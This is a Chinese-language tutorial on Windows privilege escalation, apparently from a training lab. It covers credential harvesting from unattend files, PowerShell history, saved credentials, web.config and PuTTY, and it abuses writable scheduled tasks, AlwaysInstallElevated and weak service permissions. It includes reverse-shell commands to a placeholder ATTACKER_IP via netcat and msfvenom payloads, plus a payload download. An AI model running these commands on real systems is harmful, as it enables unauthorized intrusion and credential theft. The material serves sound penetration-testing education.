





# 

windows提权

在渗透测试期间，你通常可以使用非特权用户访问某些 Windows 主机。 非特权用户将拥有有限的访问权限，可访问的范围仅包括他们名下的文件和文件夹，并且无法在主机上执行管理任务，从而使你无法完全控制目标主机。

本文介绍了攻击者在 Windows 环境中提升权限的基本技术，允许你基于主机上的任何初始非特权用户尝试升级为管理员帐户。

简而言之，权限提升包括：使用“用户 A”对主机的给定访问权限，利用该权限通过滥用目标系统中的弱点来获得对“用户 B”的访问权限。 虽然我们通常希望“用户 B”拥有管理员权限，但在某些情况下，我们可能需要先升级到其他非特权帐户然后才能尝试真正获得管理员权限。

获得对不同帐户的访问权限 有时候就像在文本文件或电子表格中查找某些粗心用户未保护的凭据一样简单，但是情况并非总是如此。

根据不同的情况，我们可能需要利用以下一些弱点：

* Windows 服务或计划任务的错误配置
* 目标系统分配给我们帐户的一些过多权限
* 易受攻击的软件
* 目标系统缺少 Windows 安全补丁

在开始学习提权技术之前，让我们看一下 Windows 系统上的不同帐户类型。

**Windows Users**

Windows系统主要有两种用户。 根据他们的访问级别，我们可以将用户分类为以下组之一：

* **Administrators**：这些用户拥有最多的权限。 他们可以更改任何系统配置参数并访问系统中的任何文件。
* **Standard Users**：这些用户可以访问计算机，但只能执行有限的任务。这些用户不能对系统进行永久或必要的更改，仅限于访问他们自己名下的文件。

任何具有管理员权限的用户都将成为管理员组的一部分；另一方面，标准用户则是用户组的一部分。

除此之外，你通常还会接触到一些操作系统在提权上下文中使用的特殊内置帐户：

* **SYSTEM / LocalSystem**：操作系统用来执行内部任务的帐户。 它拥有对主机上所有可用文件和资源的完全访问权限，其权限甚至高于管理员。
* **Local Service**：用于以“最低”权限运行 Windows 服务的默认帐户。 它将使用网络上的匿名连接。
* **Network Service**：用于以“最低”权限运行 Windows 服务的默认帐户。 它将使用计算机凭据通过网络进行身份验证。

这些帐户由Windows创建和管理，你将无法将它们用作其他常规帐户；不过，在某些情况下，你可能会因 利用特定服务而获得他们的使用权限。

## **从常见存储位置获取密码**

获取其他用户访问权限的最简单方法是从受感染的计算机上收集凭据。 此类凭据的存在有多种原因，可能是粗心的用户将凭据留在纯文本文件中，或者在目标机的浏览器或电子邮件客户端等软件中已经存储了凭据。

**Windows的无人值守（Unattended ）安装**

在大量主机上安装 Windows 时，管理员可以使用 Windows 部署服务，它允许通过网络将单个操作系统映像部署到多个主机。 这些类型的安装称为无人值守安装，因为它们不需要和用户发生交互。 此类安装需要使用管理员帐户来执行初始设置，用户凭据可能存储在机器中的以下位置：

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

在上述文件中可能会发现如下凭据：


```HTML
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

**Powershell 历史记录**

每当用户使用 Powershell 运行命令时，命令记录都会被存储到一个文件中，该文件会保留过去使用的Powershell 命令。 这对于快速重复使用以前使用过的命令很有用。 但是如果用户在 Powershell 命令行中直接运行包含密码的命令，则代表我们可以在 cmd.exe 提示符下使用以下命令来检索密码：


```Shell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

注意：上面的命令只能在 cmd.exe 中运行，因为 Powershell 不会将<span style="color: #FBBFBC">`%userprofile%`</span>识别为环境变量。 如果要在 Powershell 环境下读取文件，必须将 <span style="color: #FBBFBC">`%userprofile%`</span> 替换为 <span style="color: #FBBFBC">`$Env:userprofile`</span>

**保存的 Windows 凭据**

Windows 允许我们使用其他用户的凭据，此功能还提供了将这些凭据保存在系统上的选项。 下面的命令将列出保存的凭据：


```Shell
cmdkey /list
```

虽然看不到实际的密码，但是如果发现任何值得尝试的凭据，可以将它们与 <span style="color: #FBBFBC">`runas`</span> 命令和 <span style="color: #FBBFBC">`/savecred`</span> 选项一起使用，如下所示：


```Shell
runas /savecred /user:admin cmd.exe
```

**IIS 配置**

Internet 信息服务 (IIS) 是 Windows 安装中的默认 Web 服务器。 IIS 上的网站配置存储在名为 <mark style="background-color: #FAF390">web.config</mark> 的文件中，存储数据库密码或配置的身份验证机制。 根据安装的 IIS 版本，我们可以在以下位置之一找到 web.config：

* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

以下是在文件中查找数据库连接字符串的快速方法：


```Shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**从软件中检索凭证：PuTTY**

PuTTY 是 Windows 系统上常见的 SSH 客户端。 使用PuTTY 时，用户不必每次都指定连接的参数，而是可以存储sessions ，其中包含 IP、用户和其他配置以供以后使用。 虽然 PuTTY 不允许用户存储他们的 SSH 密码，但它会存储包含明文身份验证凭据的代理配置。

要检索PuTTY中存储的代理凭据，你可以使用以下命令在相关注册表项下搜索 ProxyPassword：


```Shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

注意：SimonTatham并不是我们检索的密码相关的用户名，SimonTatham 是 PuTTY 的创建者（他的名字是路径的一部分）。 运行上述命令后，才能获取到存储的代理用户名。

就像 putty 能够存储凭据一样，任何存储密码的软件，包括浏览器、电子邮件客户端、FTP 客户端、SSH 客户端、VNC 软件等，都具有恢复用户保存的任何密码的方法。

## **一些快速提权方法**

权限提升并不总是一个挑战，一些错误配置也可以让你获得更高的用户访问权限，在某些情况下，甚至可以获得管理员访问权限（这些场景更多的会出现在CTF中，而不是在实际渗透测试环境下）。

**计划任务（Scheduled Tasks）**

查看目标系统上的计划任务，你可能会看到有一个计划任务丢失了其二进制文件，或者它正在使用你可以修改的二进制文件。

你可以使用不带任何选项的 schtasks 命令列出目标系统上的计划任务。 如果要检索有关任何服务的详细信息，你还可以使用如下命令：


```Shell
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

使用上述命令之后，你将获得有关该任务的一些信息，但对我们而言重要的是“Task to Run”参数，它将指示计划任务执行的内容，以及“Run As User”参数，它将显示执行计划任务时的用户。

如果我们当前的用户可以修改或覆盖“Task to Run”可执行文件，那么我们就可以控制 taskusr1 用户执行的内容，从而实现简单的权限提升。 要检查可执行文件的文件权限，我们可以使用 <span style="color: #FBBFBC">`icacls`</span>：


```Shell
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

从上述输出结果可以看出，BUILTIN\Users 组（Windows系统中内置用户账户组）对计划任务的二进制文件具有完全访问权限 (F)。 这意味着可以修改 .bat 文件并插入我们需要的任何payload。 为了方便起见，可以使用 <span style="color: #FBBFBC">`C:\tools`</span>目录下已经准备好的<span style="color: #FBBFBC">`nc64.exe`</span>文件。

我们可以更改 bat 文件以生成反向 shell：


```Shell
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

在反向 shell文件中指定的同一端口上，由攻击机启动一个netcat侦听器：


```Shell
nc -lvp 4444  #攻击机上
```

当下次计划任务开始自动运行时，你应该会在攻击机上 收到具有 taskusr1 权限的反向 shell。

在真实场景中可能必须等待计划任务自动触发，但是在此处为了节省时间，目标系统给用户提供了手动启动任务的权限，我们可以使用以下命令手动运行计划任务：


```Shell
C:\> schtasks /run /tn vulntask
```

你将在攻击机上，按预期收到具有 taskusr1 权限的反向 shell：


**AlwaysInstallElevated**

Windows 安装程序文件（也称为 .msi 文件）用于在系统上安装应用程序，它们通常以启动它的用户的权限级别运行；但是，MSI文件也可以被配置为以任何用户帐户（甚至是非特权帐户）的更高权限运行。 这可能允许我们生成一个以管理员权限运行的恶意 MSI 文件。

注意： AlwaysInstallElevated 方法在此实验中的目标机器上不起作用，该方法在本小节仅作为知识点信息提供。

此方法需要设置两个注册表值，可以使用以下命令查询：


```Shell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

为了能够利用此漏洞，以上两个注册表值都应该设置。 设置完毕之后，就可以使用 msfvenom 生成恶意的.msi 文件，如下所示：


```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

由于这是一个反向 shell，你还需要在攻击机上运行相应配置的 Metasploit Handler模块来进行相关端口的监听。

将创建的文件传输到目标机，在目标机上使用以下命令运行MSI程序，最后将在攻击机上接收到一个反向 shell：


```Shell
#在目标机上
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## **滥用服务配置错误**

**Windows服务**

Windows 服务由服务控制管理器 (SCM- Service Control Manager) 管理。 SCM 是负责根据需要管理服务状态、检查任何给定服务的当前状态并通常会提供配置服务的方法的一个进程。

Windows 机器上的每个服务都有一个关联的可执行文件，只要服务启动，SCM 就会运行相关的可执行文件。 值得注意的是，服务所关联的可执行文件还实现了与 SCM 通信的特殊功能，每个服务还会指定运行该服务的用户帐户。

为了更好地理解服务的结构，让我们使用<span style="color: #FBBFBC">`sc qc`</span>命令检查 apphostsvc 服务配置：



在这里我们可以看到，关联的可执行文件是通过 <span style="color: #FBBFBC">`BINARY_PATH_NAME`</span> 参数指定的，用于运行服务的帐户会显示在 <span style="color: #FBBFBC">`SERVICE_START_NAME`</span> 参数上。

计算机中的服务具有自由访问控制列表 (DACL-Discretionary Access Control List)，DACL将指示谁有权启动、停止、暂停、查询状态、查询配置或重新配置服务，以及其他特权。DACL 可以手动查看也可以通过Process Hacker查看。以下是DACL示例：



所有服务配置都存储在注册表中<span style="color: #FBBFBC">`HKLM\SYSTEM\CurrentControlSet\Services\`</span>：



系统中的每个服务都有一个子项。 我们可以在 <span style="color: #FBBFBC">`ImagePath`</span> 值上看到服务所关联的可执行文件，在 <span style="color: #FBBFBC">`ObjectName`</span> 值上看到用于启动服务的帐户，如果为服务配置了 DACL（自由访问控制列表），它将存储在名为 <span style="color: #FBBFBC">`Security`</span> 的子项中。 默认情况下只有管理员才能修改此类注册表项。

**服务关联的可执行文件的不安全权限**

如果与服务关联的可执行文件具有允许攻击者修改或替换它的弱权限，则攻击者可以轻松获得服务帐户的权限。

要了解它是如何工作的，让我们看一下在 Splinterware System Scheduler（*splinterware*公司的一个应用软件）上发现的漏洞。 首先，我们将使用<span style="color: #FBBFBC">`sc qc`</span>查询相关服务配置：



由上述查询结果可知：漏洞软件所安装的服务以svcuser1账户运行，与该服务关联的可执行文件路径为<span style="color: #FBBFBC">`C:\Progra~2\System~1\WService.exe`</span>。 然后我们继续检查 服务关联的可执行文件的权限：


由上述结果可知，Everyone组 对服务所关联的可执行文件具有修改权限 (M)，这意味着我们可以简单地用我们偏好的任何有效负载（payload）覆盖此文件，然后此服务将使用配置的用户帐户的权限执行payload。

我们可以在攻击机上使用 msfvenom 生成一个 exe-service 有效负载并通过 python 网络服务器传输该payload文件到目标机：


```Shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

然后，我们可以使用以下命令从目标机的Powershell界面接收来自攻击机的payload文件：


```Shell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

在 Windows 服务器中，我们将用payload文件替换掉服务所关联的可执行文件。 由于我们需要另一个用户来执行我们的payload文件，因此我们还要向Everyone组 授予完全权限：



在攻击者机上启动一个反向shell监听器：`user@attackerpc$ nc -lvp 4445`

最后，重新启动服务。 虽然在正常情况下，你可能需要等待服务自行重启，但在此处你已被分配了手动重启服务的权限，以节省一些时间。

你可以在cmd界面使用以下命令手动重启服务：


```Shell
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

注意：PowerShell 将 <span style="color: #FBBFBC">`sc`</span> 作为 <span style="color: #FBBFBC">`Set-Content`</span> 的别名，因此你需要使用 <span style="color: #FBBFBC">`sc.exe`</span> 才能通过PowerShell 控制服务。

在攻击机上，你将获得一个具有 svcusr1 权限的反向 shell界面：


